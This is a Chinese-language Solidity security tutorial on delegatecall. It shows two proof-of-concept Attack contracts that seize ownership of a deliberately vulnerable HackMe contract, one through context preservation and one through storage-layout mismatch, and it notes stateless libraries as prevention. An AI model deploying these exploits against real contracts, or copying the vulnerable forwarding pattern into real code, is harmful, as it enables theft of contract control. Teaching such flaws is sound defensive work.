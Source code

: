 # 70.delegatecall
## 漏洞
delegatecall的使用很棘手，错误的使用或不正确的理解可能会导致灾难性的结果。
在使用delegatecall时，您必须记住两件事：
1. delegatecall保留上下文（存储，调用者等...）
2. 调用delegatecall的合约和被调用的合约的存储布局必须相同。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
HackMe是一个使用delegatecall执行代码的合约。由于HackMe内部没有更改所有者的功能，因此更改所有者并不明显。但攻击者可以通过利用delegatecall来劫持合约。让我们看看如何实现。

1. Alice部署了Lib。
2. Alice使用Lib的地址部署了HackMe。
3. Eve使用HackMe的地址部署了Attack。
4. Eve调用Attack.attack()。
5. 现在Attack是HackMe的所有者。

发生了什么？

Eve调用了Attack.attack()。
Attack调用了HackMe的fallback函数，并发送了pwn()函数的函数选择器。
HackMe使用delegatecall将调用转发到Lib。
在这里，msg.data包含pwn()函数的函数选择器。
这告诉Solidity在Lib内部调用函数pwn()。
函数pwn()将所有者更新为msg.sender。
Delegatecall使用HackMe的上下文运行Lib的代码。
因此，HackMe的存储被更新为msg.sender，其中msg.sender是HackMe的调用者，即Attack。
*/

contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```
这是另一个例子。
在你理解这个漏洞之前，你需要了解Solidity如何存储状态变量。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
这是前一个漏洞的更复杂版本。

1. Alice部署Lib和HackMe，并将Lib的地址传递给它们
2. Eve部署Attack并将HackMe的地址传递给它
3. Eve调用Attack.attack()
4. 现在Attack是HackMe的所有者

发生了什么？
请注意，Lib和HackMe中的状态变量没有以相同的方式定义。这意味着调用Lib.doSomething()将更改HackMe内的第一个状态变量，该变量恰好是lib的地址。

在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack。

第二次调用doSomething()会调用Attack.doSomething()，在这里我们更改了所有者。
*/

contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // 确保存储布局与HackMe相同
    // 这将使我们能够正确地更新状态变量。
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // 覆盖lib的地址
        hackMe.doSomething(uint(uint160(address(this))));
        // 如果将任何数字作为输入传递，下面的函数doSomething()将被调用。
        hackMe.doSomething(1);
    }

    // 函数签名必须与HackMe.doSomething()匹配。
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```
## 预防性技术
* 使用无状态库
# remix验证
1. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。
![70-1.png](./img/70-1.png)
2. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack，第二次调用doSomething()会调用Attack.doSomething()，owner被修改。
![70-2.png](./img/70-2.png)
